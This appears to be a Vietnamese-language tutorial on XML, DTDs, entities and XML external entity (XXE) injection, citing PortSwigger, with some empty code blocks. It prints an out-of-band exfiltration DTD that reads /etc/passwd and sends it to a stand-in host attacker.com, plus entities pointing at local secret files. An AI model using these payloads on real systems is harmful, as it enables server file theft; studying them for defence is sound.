








## Khái niệm
- XML: là ngôn ngữ đánh dấu mở rộng, gần tương tự với HTML, chỉ khác là HTML dùng để trình bày giao diện ra trang web, còn XML sử dụng để transfer data.
- Vậy XML được dịch nôm ra là ngôn ngữ đánh dấu mở rộng, được thiết kế với mục đích lưu trữ, truyền dữ liệu và cả người và "máy" đều có thể đọc được.
## Cấu trúc của file bao gồm


```
<?xml version="1.0"?> : Ở đây là meta để khai báo XML
<Person></Person> : Root node
<Name></Name> và <Age></Age> : Children node
```



- Khi chúng ta upload 1 file xml thì nó sẽ đi qua XML parser đây là cách xử lý XML và giúp lập trình viên xử lý data XML đơn giản hơn


- Tác dụng của XML parser


- Thẻ comment: <! – / -> – Dãy ký tự này được hiểu là phần đầu / phần cuối của một comment. Vì vậy, bằng cách đưa một trong số chúng vào tham số Tên người dùng:

```
test = foo<!--
```

- Ký hiệu và: & – Dấu và được sử dụng trong cú pháp XML để đại diện cho các thực thể. Định dạng của một thực thể là & ký hiệu ;. Một thực thể được ánh xạ tới một ký tự trong bộ ký tự Unicode.

```
<tagnode>&lt;</tagnode>

```

- các ký tự đặc biệt trong xml sẽ phải encode.

## Document Type Definition(DTD):
- DTD (document type definitions) - dịch nôm ra DTD dùng để "định nghĩa loại tài liệu" thông qua việc xác định cấu trúc cũng như chỉ ra format hợp lệ của các elements và attributes trong file xml.
- DTD (document type definition) là thẻ đặc biệt giúp chúng ta có thể include như trong PHP. Nó giống như cho phép chúng ta định nghĩa 1 biến, tài nguyên mới để chúng ta sử dụng, và trong đó chúng ta có thể định nghĩa 1 tài nguyên là EXTERNAL ENTITY giúp chúng ta có thể đọc 1 file hay 1 url
- XML DTD chứa các khai báo (declaraion) nhằm dựng nên cấu trúc của một file XML, loại dữ liệu hoặc là các item khác. DTD được khai báo với DOCTYPE elemt ở đầu file XML. DTD có thể tự định nghĩa ở trong chính file XML (Internal DTD) hoặc có thể được load ở ngoài (External DTD)
ví dụ dưới đây là ví dụ về một External DTD. Tức là bản thân DTD là một file, nằm ngoài file xml:

```

```

- DOCTYPE declaration. Phần này chứa một reference tới một DTD file có tên Note.dtd. Nội dung của nó:




- khi đó giá trị của address trong thẻ name sẽ được lấy trong file "address.dtd"
Vậy DTD giúp các file xml thống nhất một standard/format xác định, từ đó dễ dàng hơn trong việc xác định cấu trúc của dữ liệu, đặc biệt khi chuyển file từ nơi này sang nơi khác, người sử dụng có thể sử dụng DTD để verify lại file xml có giống như standard/format mong muốn hay không.

- Có 2 dạng DTD thường được sử dụng:
+ Internal DTD được khai báo trong chính file XML tương ứng:

```
<!DOCTYPE root-element [element-declarations]>
```
VD: 
```
<?xml version="1.0"?>
// Khai báo internal DTD
<!DOCTYPE note [
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT heading (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget</body>
</note>
```

- External DTD: Khai báo nội dung trong một tệp tin .dtd sẽ được tham chiếu tới sau đó. Ví dụ, kẻ tấn công host một trang web public có chứa một external DTD file có URL http://attacker.com/malicious.dtd có nội dung như sau:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```

- Tệp tin DTD này thực hiện các bước hoạt động như sau:

+  nghĩa một parameter entity với tên file có giá trị là nội dung tệp /etc/passwd
+ Định nghĩa một entity với tên eval, trong entity này chứa một định nghĩa parameter entity khác với tên exfiltrate sẽ gửi request tới website của attacker http://attacker.com/, truyền tham số x chứa nội dung tệp /etc/passwd bằng cách gọi tham chiếu entity %file;
+ Gọi tham chiếu entity %eval chứa định nghĩa entity exfiltrate
+ Gọi tham chiếu entity %exfiltrate;.
&#x25; là định dạng HTML encode của ký tự % do được chứa trong một định nghĩa parameter entity khác.
+ Các định nghĩa parameter entity cần được gọi tham chiếu mới có thể hoạt động. Như trong ví dụ file DTD trên gọi tham chiếu %eval;, để định nghĩa về entity eval hoạt động thì cần gọi thêm tham chiếu %exfiltrate;, trong định nghĩa của entity exfiltrate đã chứa việc gọi tham chiếu %file;


## Entity
- Entity: là một khái niệm có thể được sử dụng như một kiểu tham chiếu đến dữ liệu, cho phép thay thế một ký tự đặc biệt, một khối văn bản hay thậm chí toàn bộ nội dung một file vào trong tài liệu xml. Một số kiểu entity: character, parameter, named (internal), external…
Có thể coi các entity là một biến để lưu trữ dữ liệu vậy, chúng ta có thể khai báo nó một lần, gán giá trị vào cho nó và sử dụng ở trên toàn bộ file XML. Các entity chỉ có thể được khai báo ở DTD (Document Type Definition)
- Entity có thể được khai báo như sau:
```
<!ENTITY entity-name “entity-value” >
```

Hoặc :
```
!ENTITY entity-name SYSTEM "URI/URL">
```

- ví dụ về Internal DTD Entity:
```
Syntax:
<!ENTITY entity-name "entity-value">

Example:
<!ENTITY website "macilous.com">
<!ENTITY author "123 &website;"> 
<author>&author;</author>

Output:
<author>123 macilous.com</author>
```

- Ví dụ về External DTD Entity:

```
Syntax:
<!ENTITY name SYSTEM "URI/URL">

Example:
<!ENTITY author SYSTEM "http://example.com/entities.dtd"> <author>&author;</author>
```


## XML Custom Entity
- XML cho phép chúng ta tự tạo nên một custom entity được khai báo ở trong DTD

- Ở đây chúng ta đã khai báo một entity tên gọi myentity với giá trị là "my entity value", vì vậy ở những node thì nếu chúng ta chèn entity myentity thì sẽ cần ghi ra là &myenity;
## XML External Entity:
- External Entity là một loại custom entity mà giá trị của nó load ở bên ngoài DTD. Ở đây nó sẽ ảnh hưởng đến bảo mật của trang web bởi vì giá trị của một external entity có thể là đường dẫn của một file hoặc URL.
- External entity: entity tham chiếu đến nội dung một file bên ngoài tài liệu xml
Ví dụ external entity:
```
<!DOCTYPE order SYSTEM "order.dtd">
<!DOCTYPE ran SYSTEM "/dev/random">
<!DOCTYPE request [
     <!ENTITY include SYSTEM "c:\secret.txt">
]>
```

## XML external entity (XXE) injection

### Khái niệm
- Theo port swigger :
- Tính năng chèn thực thể bên ngoài XML (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của máy chủ ứng dụng và tương tác với bất kỳ hệ thống phụ trợ hoặc bên ngoài nào mà chính ứng dụng có thể truy cập.

- Trong một số trường hợp, kẻ tấn công có thể leo thang cuộc tấn công XXE để xâm phạm máy chủ cơ bản hoặc cơ sở hạ tầng phụ trợ khác, bằng cách lợi dụng lỗ hổng XXE để thực hiện các cuộc tấn công giả mạo yêu cầu phía máy chủ (SSRF).

### Nguyên nhân
- Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện việc này hầu như luôn sử dụng thư viện chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Lỗ hổng XXE phát sinh do đặc tả XML chứa nhiều tính năng nguy hiểm tiềm tàng khác nhau và các trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng thường không được ứng dụng sử dụng.


### XML entities
- Entity: có thể được sử dụng như một kiểu tham chiếu đến dữ liệu, cho phép thay thế một ký tự đặc biệt, một khối văn bản hay thậm chí toàn bộ nội dung một file vào trong tài liệu xml. Một số kiểu entity: character, named (internal), external, parameter.
- Ví dụ:
```
&amps; -> &
&lt; -> <
&gt; -> >
```

- Theo port swigger:
- Các thực thể XML là một cách thể hiện một mục dữ liệu trong một tài liệu XML, thay vì sử dụng chính dữ liệu đó. Nhiều thực thể khác nhau được tích hợp sẵn theo đặc tả của ngôn ngữ XML. Ví dụ: các thực thể &lt;và &gt;đại diện cho các ký tự <và >. Đây là các siêu ký tự được sử dụng để biểu thị các thẻ XML và do đó thường phải được biểu diễn bằng các thực thể của chúng khi chúng xuất hiện trong dữ liệu.


